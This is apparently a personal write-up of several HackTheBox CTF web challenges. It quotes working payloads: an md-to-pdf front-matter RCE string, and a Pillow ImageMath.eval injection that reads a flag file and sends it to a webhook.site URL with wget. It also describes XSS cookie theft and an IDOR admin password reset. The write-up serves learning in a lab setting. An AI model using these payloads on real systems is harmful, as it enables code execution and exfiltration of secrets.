





## Intro

I have decided to write on my experience at this years HackTheBox CTF event. Apologies for the short writeups. They were taking from the mess of notes and whatever screenshots I had taken to share with the group for discussion. I didn’t plan ahead to write a post about it after so learning better note keeping is definitely going on the list!

## Kryptos Support

For this task we were simply given a page saying “Report any issues regarding the Kryptos Vault below” and an input field similar to a reporting system where after submission the admin checks our report.

Immediately XSS came to mind and I submitted a request that would send the cookie to my [https://webhook.site/](https://webhook.site/) link if it didn’t have security in place to stop the cookie from being sent. Easily enough the cookie was sent to the webhook.site link I supplied and I used this to gain access to the sites /tickets page.



This is where I first got stuck. We are given serials for the vaults but if we make a request asking for a new rfid how do we intercept the admins reply?

After giving up on trying to discover a way to intercept a request over XSS I explored some more and found a password reset function at /setting. Intercepting this with Burp reveled there was two fields required, “password” and “uid”. As in most cases the first id given on a system will belong to the admin I tried changing the uid to 1 and was successfully able to login as admin!



This was all that was required to achieve the flag.

## Blinkerfluids

For this one we were given the option to download the docker file. I downloaded the file while starting up the instance and had a quick look through it to see what I would be dealing with.

In one file the dependencies were listed.

```
"dependencies": {
"express": "4.17.3",
"md-to-pdf": "4.1.0",
"nunjucks": "3.2.3",
"sqlite-async": "1.1.3",
"uuid": "8.3.2"
```

So I immediately did a google search on each of these to see what the newest versions were. Then did a google search on any that were not at latest versions. This brought me to a vulnerability in md-to-pdf:

[https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880)

I had to do a bit of research into JavaScript Front Matter to understand the payload and how I would need to use it on the site. Afterward I intercepted a request from /api/invoice/add and played around with the payload and worked with a team member to find one that worked:

`--js\n((require('child_process')).execSync('id > /tmp/RCE.txt'))\n---RCE`

From there we simply had to change id to ls and locate the flag!

## Amidst Us

This one turned out to be a simple and cute site with the ability to upload images that replace the two sus peeps on the page. This makes a post request to /api/alphafy that looks like `{ “image”:”iVBORw...ElFTkSuQmCC” ,”background”:[ 255, 255, 255 ] }`

After downloading the docker image and having a look through the use of ImageMath.eval stands out to the group as it has a known vulnerability, CVE-2022-22817. [https://www.cvedetails.com/cve/CVE-2022-22817/](https://www.cvedetails.com/cve/CVE-2022-22817/)

This allowed us to use the payload `"exec('import os;os.system(\"flag=$(cat ../flag.txt);wget https://webhook.site/webhook_uuid?flag=${flag}\")')"` in any of the `background` parameters to get the flag.

## Mutation Lab

This challenge was using the convert-svg-to-png nodejs package which with a little googling reveled it had a known vulnerability CVE-2021-23631. [https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGTOPNG-2348244](https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGTOPNG-2348244). With this POC I sent the request to /api/export over to repeater and played around.





This was an immediate success but not an easy win. As a lengthy and somewhat blind search of the system reveled no flag to find. I went back to the other challenge dockers and used them to figure out some of the paths and files for this web app and read through the code on each many times trying to figure out what to do next.

Eventually I came across /app.env which gave me the SESSION_SECRET_KEY.



Unfortunately I did not know how to write code to get the admin cookie from this so I was stuck there.

## Conclusion

I was able to see how much further I have come from last years attempt at this event. I was quite new to CTF events and felt like I didn’t know enough to join a group. This year I had enough confidence to join a group. Sadly it only ended up having 4 of the 10 people allowed and 2 of those gave up and went silent after the first day. But even having one other to work with and bounce thoughts back and forth was such a better experience!

I am happy with how quickly I was able to recognize where the vulnerabilities likely were and what we were meant to do to achieve the flag. It thought me that I have much to learn with actually exploiting the vulnerabilities so I don’t give up the obvious direction too quickly and waste too much time looking for possible alternatives instead.

I look forward to spending more time learning on HackTheBox machines now after I finish this sub with PentesterLab, as I now believe there is much more I can learn there and that I am ready to step a little away from the more hand held platforms.
